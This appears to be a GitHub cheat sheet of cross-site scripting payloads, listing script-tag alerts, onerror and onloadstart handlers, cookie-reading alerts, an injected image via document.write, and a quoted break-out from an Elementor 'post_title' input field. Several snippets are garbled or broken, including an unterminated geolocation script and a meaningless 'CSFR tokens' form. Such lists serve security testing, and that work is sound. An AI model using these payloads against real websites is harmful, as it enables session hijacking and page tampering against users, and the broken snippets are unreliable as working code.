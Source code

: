 ## DOM & STORED
```
<script>alert(document.domain)</script>
```
## Self Cross-Site Scripting 
```mysql
<img src="" onerror="alert(document.cookie)">
```
## Non ExistantImage
```
<div><image src=validateNonExistantImage.png onloadstart=alert(1337)> hey girl hey </div>
```
## Get cookie
```
nu11secur1ty<script>alert(document.cookie)</script>
```
## Alert check
```
<script>alert("Hello");</script>
<script>alert("nu11secur1ty_is_here");</script>
```

## Hidden Image
```
<script>function a() { document.write("<img src='https://raw.githubusercontent.com/nu11secur1ty/XSSight/master/XSS-image/image/kostaakatil.webp'></img>"); }; window.onload = a; alert("A Hidden scripted image, warning you are vulnerable!");</script>
```
## Post image
```
<form action="#" method="post"><label for="imgURL">image URL:</label><input type="url" id="imgURL"/><label for="pageURL">page URL:</label><input type="url" id="pageURL"/><button id="imgAdd">add image</button></form>
```
- 0.1
```
</span><img src=https://cdn5-capriofiles.netdna-ssl.com/wp-content/uploads/2017/07/IMG_0068.gif <a href=http://example.com/> onerror=alert(1) /></span>
```
## without error report + link to malicious URL

```js
<span><img src=https://cdn5-capriofiles.netdna-ssl.com/wp-content/uploads/2017/07/IMG_0068.gif>link<a href=http://example.com/>
<a href="https://www.nu11secur1ty.com/"></а><img src=https://cdn5-capriofiles.netdna-ssl.com/wp-content/uploads/2017/07/IMG_0068.gif>
<a href="https://www.nu11secur1ty.com/"><img src=https://cdn5-capriofiles.netdna-ssl.com/wp-content/uploads/2017/07/IMG_0068.gif" width=150" height="70">


```
## Error check
```
</span><img src=1 onerror=alert(1) /><span>
```
## CSFR tokens
```
<form action="https:/yourdomain.com/acquire_token.php"></textarea>
```
## Geolocation
```
<script>Var today = new Date().toLocaleString() + 'week' + 'day one two three four five six'.charAt(new Date().getDay());document.getElementById('remote').src = "htttp:// + today + "----" + encodeURIComponent(position.coords.latitude) + "," + encodeURIComponent(position.coords.longitude</script>
```
## "post_title" parameter
```
<input class="elementor-field elementor-field-textual elementor-size-lg" type="text" placeholder="" value="\"><script>alert(document.cookie)</script><\"" name="post_title" id="dce_view_f9fc119_post_title">
```
## Document_cookie
```
<input class="elementor-field elementor-field-textual elementor-size-lg" type="text" placeholder="" value="\"><script>alert(document.cookie)</script><\"" name="post_title" id="dce_view_f9fc119_post_title">
```

